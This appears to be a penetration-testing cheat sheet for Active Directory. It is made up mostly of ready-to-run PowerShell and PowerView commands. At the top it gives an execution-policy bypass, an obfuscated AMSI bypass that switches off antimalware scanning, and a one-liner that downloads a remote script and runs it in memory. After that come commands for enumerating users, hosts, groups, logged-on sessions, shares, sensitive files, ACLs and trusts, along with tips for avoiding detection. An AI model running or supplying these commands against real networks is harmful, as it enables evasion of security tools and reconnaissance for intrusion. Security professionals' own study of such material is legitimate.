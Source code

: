 # Execution Policy Bypass:

```powershell
powershell -ep bypass
```

# Bypass AMSI:

```
sET-ItEM ('V'+'aR' + 'IA' + 'blE:1q2' + 'uZx')([TYpE]("{1}{0}"-F'F','rE'));(GeT-VariaBle("1Q2U" + "zX") -VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f 'Util','A','Amsi','.Management.','utomation.','s','System'))."g`etf`iElD"(("{0}{2}{1}" -f 'amsi','d','InitFaile'),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})

```

#PowerView from remote into memory:

```powershell
iex (iwr 'https://<remote_address>/PowerView.ps1')
```

# Enumerate domain

```powershell
Get-NetDomain
Get-NetDomain -Domain <domain>
```

# Enumerate domain-controllers

```powershell
Get-NetDomainController
Get-NetDomainController -Domain <domain>
```

# Enumerate Policies

```powershell
Get-DomainPolicy
(Get-DomainPolicy)."Policy Name"
```

# Enumerate Users:

```powershell
Get-NetUser
Get-NetUser -Username <username>
Get-UserProperty
Get-UserProperty -Properties <propertiy>
Find-UserField -SearchField <field> -SearchTerm "<grepable term>"
Get-UserProperty -Properties samaccountname,<property> |Select-String -Pattern  "<grapable term>"
```

* Hint to avoid detection:

    * Look for users with pwdlastset that is not very old;
    * Look for users that logoncount is big;
    * Look for users that badpwdcount is non-zero or a big numer;


# Enumerate Computer objets:

```powershell
Get-NetComputer
Get-NetComputer -FullData
Get-NetComputer -Computer <computername>
Get-NetComputer -<Property> <property>
Get-NetComputer |Out-String -Stream | Select-String -Pattern "<pattern1>","<pattern2>",...
Get-NetComputer -FullData | select term1,term2,...
Get-NetComputer -Fulldata |Select  dnshostname,distinguishedname | Out-String -Stream |Select-String -pattern "OU=<organization-unit-name>"
```

## All Computers of a certain Organization Unit 

```powershell
Get-NetComputer -Fulldata |Select  dnshostname,distinguishedname | Out-String -Stream |Select-String -pattern "OU=<organization-unit-name>"
```

# Enumerate live machines

```powershell
Get-NetComputer -Computer <computername|dnshostname> -Ping
```

# Enumerate Groups in the current domain

```powershell
Get-NetGroup
Get-NetGroup -Domain <domain>
Get-NetGroup -Domain <domain> -FullData | select <term>
Get-NetGroup *admin*
Get-NetGroup -FullData | select name |Out-String -Stream |Select-String -Pattern "admin"
```

## Enumerate membership

```powershell
Get-NetGroupMember -GroupName "<groupname>" [-Domain "<domain>"] -Recurse // what users are member of certain group
Get-NetGroup -Username "username" // what groups a user is member of
```

# Enumerate Local Groups

```powershell
Get-NetLocalGroup -ComputerName "<computername>" -ListGroups // all localgroups, requires admin priv for non-dc machines
Get-NetLocalGroup -ComputerName "<computername>" -Recurse // All Members of localgroups, requires the same privs of the above
```

# Enumerate Active logged on users on a Computer

```powershell
Get-NetLoggedon -ComputerName "<computername> // requires admin rights"
Get-LastLoggedOn -ComputerName "<computername> // requires admin rights "
Get-LoggedonLocal -ComputerName "<computername> // Requires remote registry enabled, it is enabled by default"
```

# Find Shares

```powershell
Get-NetFileServer // retrieve all file servers on the domain
Invoke-ShareFinder [-Versbose] [-ExcludeIPC -ExcludePrint -ExcludeStandard]
Invoke-FileFinder [-Verbose] // Sensitive files on computers in the domain
```

# Group Policies

```powerview
Get-NetGPO
Get-NetGPO [-ComputerName "<computername>"] [-GPOName "<{OU-UUID}>"] //UUID = gplink uid
Get-NetGPOGroup
Get-NetGroupMember -GroupName <groupname>   
Find-GPOComputerAdmin // users of a localgroup using GPO
Find-GPOComputerAdmin [-ComputerName  "<computername>"]
Find-GPOLocation -UserName <username> // machines where a user is member of a group
```

## GPOs Applied to machines of an specific OU

```powershell
Get-NetGPO -GPOName "{$(Get-NetOU -OUName "<organization_unit_name>" -FullData |select -ExpandProperty gplink | %{ $_.Split("{")[1].Split("}")[0]; })}"
```

# Organization Units:

```powershell
Get-NetOU [-FullData]
```

# ACLS

```powershell
Get-ObjectACL
Get-ObjectACL [-SamAccountName <account_name>] [-ResolveGUIDs]
Get-ObjectACL [-ADSprefix 'ads'] [-ADSPath '<ads_path>'] [-Verbose]
Get-PathAcl -Path "aclpath"  // get acls associated with the path
```

* Most important properties of an ACE:
    * ObjectDN
    * IdentityRefrence
    * ActiveDirectoryRights

## Scan for interesting ACEs

```powershell
Invoke-ACLScanner -ResolveGUIDs
```

# Domain Trusts

* One-way trust 
    
    * The domain B is trusted by domain A, therefore domain B can access resources from domain A, not the other way around

```
A <- B
```

* Two-way trust
    * Both domains trust each othe and therefore they can access each other's resources

```
A <-> B
```

* Transitive Trusts
    * Domain A have a two-way trust with domain B which also has it with domain C, therefore, domain C can access resources from domain A and the other way around is also valid.

```
A <-> B <-> C = A <-> C
```

* Tree-root trust 

    * Created automatically whenever a new domain tree is added to the forest root.

* External Trusts

    * Trust established between two non-root domain from diferent forests
        * not transitive

* Forest trusts
    * Trust established between root domain of different Forests
    * Non-implicit. Always non-Transitive

# Forests are considered a security boundary

**All the intra-forest trusts are automatic**

# Trusts

```powershell
Get-NetDomainTrust
Get-NetForest [-Forest '<forest>']
Get-NetForestDomain [-Forest '<forest>']
Get-NetForestCatalog [-Forest '<forest>']
Get-NetForestTrust [-Forest '<forest>']

```
